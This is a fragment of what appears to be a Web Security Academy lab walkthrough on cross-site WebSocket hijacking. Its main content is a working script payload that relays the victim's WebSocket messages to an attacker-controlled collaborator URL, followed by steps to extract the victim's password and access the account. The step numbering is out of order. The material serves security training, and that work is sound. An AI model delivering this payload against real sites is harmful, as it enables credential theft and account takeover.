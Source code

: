1. Deliver the following exploit to the victim:
      ```
      <script>
      // Create a new WebSocket object and connect to the specified URL
      var ws = new WebSocket('wss://your-websocket-url');

      // Set an event listener for when the connection is opened
      ws.onopen = function() {
      // Send a message to the server indicating that the client is ready to receive messages
      ws.send("READY");
      };

      // Set an event listener for when a message is received from the server
      ws.onmessage = function(event) {
      // Send the received message data as the request body in an HTTP POST request to the specified collaborator URL
      // Note that the 'no-cors' mode is used to bypass CORS checks
      fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
      };
      </script>
      ```
6. Poll the collaborator:  

   ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/52672103-0c80-4326-93e9-60738163b7cd)

8. Extract victims password:  

    ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/8fa7b581-2007-40e4-87f8-4e5ca2b0e7dc)

7. Access victims account:  

    ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/8afec01a-a1cc-492e-817d-56437c39d593)

